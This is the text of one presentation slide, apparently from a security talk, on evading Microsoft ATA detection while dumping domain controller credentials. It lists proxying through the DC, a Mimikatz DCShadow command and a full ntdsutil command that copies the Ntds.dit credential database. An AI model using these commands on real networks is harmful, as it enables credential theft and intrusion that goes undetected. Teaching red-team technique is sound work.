

# MS ATA vs DC dumping
Bypass:
Use DC as proxy
socks5, portproxy
Use DCShadow to add own DC
Mimikatz #lsadump::dcshadow
Use Ntds.dit dump
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\temp\Backup" quit quit

54